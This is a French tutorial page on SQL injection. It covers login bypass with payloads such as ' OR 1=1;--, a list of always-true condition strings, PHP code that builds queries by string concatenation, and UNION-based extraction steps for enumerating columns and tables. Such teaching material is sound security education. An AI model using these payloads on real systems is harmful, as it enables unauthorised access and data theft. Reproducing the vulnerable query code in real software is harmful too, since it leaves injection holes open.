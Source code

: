 # Injection de commandes SQL

## Se connecter sans identifiant et sans mot de passe

On tape dans l'identifiant : 

```sql
' OR 1=1 ;--
```

Et on n'oublie pas de mettre un mot de passe aléatoire, au cas ou le système vérifie si un mot de passe est rentré.

{% hint style="warning" %}
Si une erreur est affiché comme 'SQL error', alors il y a une faille dans la gestion du formulaire. Dans cas on va pouvoir l'exploiter pour en tirer d'autres infos. Si aucune sécurité n'est mise en place, la connexion se fera sur le premier utilisateur de la base de données.
{% endhint %}

## Se connecter avec seulement l'identifiant

#### 1. Par le nom d'utilisateur

Dans un premier temps, on peut s'attaquer au _**nom d'utilisateur**_. Prenons par exemple, une requête de connexion au serveur de ce type :

```sql
select * from user_table
where username = 'anto'
and password = 'mystrongpassword';
```

En supposant que le mot de passe ne soit pas haché, la requête PHP ressemblerait à ceci :

```php
// Connexion à la database
$db_query = "select * from user_table where
username = '".$user."'
AND password = '".$password."';";
// Execution de la requête
```

Ainsi, en entrant dans la section du nom d'utilisateur « **anto’;--** » la requête SQL devient :

```sql
select * from user_table where
username = 'anto';-- and password = ''
```

Or, le double tiret permet de commenter du code en SQL, ce qui revient donc à contourner le mot de passe, et à pouvoir se connecter en ayant uniquement besoin du nom d'utilisateur.



#### 2. Par le mot de passe, par attaque booléenne 

Une deuxième possibilité à tester, est l'injection SQL booléenne. Par exemple, en ayant une requête SQL de ce type :

```sql
select * from user_table where
username = 'anto' and
password = 'password';
```

On peut très bien contourner le mot de passe, en entrant dans la section du mot de passe la commande « **'or 1=1;--** » qui transforme la requête comme ceci :

```sql
select * from user_table where
username = 'anto' and
password = '' or 1=1;--;
```

Et qui de ce fait, rend totalement inutile la condition password='anto' vu que la condition 1=1 sera toujours vraie.

Il existe une infinité de conditions triviales, par exemple :

```sql
'='
'OR 1=1
'OR a=a
'OR'
'OR''='
'OR"="
'OR'="
'OR '="
'OR "='
'OR ''='
'OR '=''
'OR "=''
'OR ''="
```



{% hint style="warning" %}
Malheureusement pour nous, ces genres de vulnérabilités sont extrêmement rares, mais valent le coup d'être essayés.
{% endhint %}

## Méthode UNION

Une fois une vulnérabilité trouvée, on peut l'exploiter.

Prenons le cas d'un script vulnérable de recherche d'article à partir d'un mot dans le titre, ce script affiche la liste des articles trouvés et des liens vers ceux-ci. Notre objectif est d'utiliser cette requête pour afficher le contenu d'autres tables.

```php
$sql="SELECT * FROM article WHERE title LIKE '%" . $title . "%'";
```

Problème, la structure de la table article nous est inconnue, nous ne connaissons pas ses différents champs; or pour réussir à afficher des informations d'autres tables, plusieurs challenges se posent à nous :

* Trouver le nombre et le type de chaque colonne retournée par la requête
* Trouver le nom d'une colonne et d'une table comportant des choses intéressantes \(Login, Password, etc.\)
* Utiliser une union pour récupérer les informations

Trier par numéro de colonne permet de tester si cette colonne existe. Si la requête retourne 5 colonnes ou plus, la requête suivante va fonctionner :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' ORDER BY 5--'
```

{% hint style="info" %}
Remarque,  '--' est utilisé par tous les SGBD pour les commentaires SQL.
{% endhint %}

Une fois identifié le nombre de colonnes, réalisons une première UNION :

```sql
SELECT * FROM article WHERE title LIKE '%sql-injection%' UNION SELECT 1,2,3,4,5--'
```

{% hint style="info" %}
Pour une base PostgreSQL, la colonne tablename de la table **pg\_tables** va permettre de récupérer le nom des tables, pour MSSQL, select name from **SysObjects**, pour MySQL, select table\_name from **information\_schema.tables .**
{% endhint %}



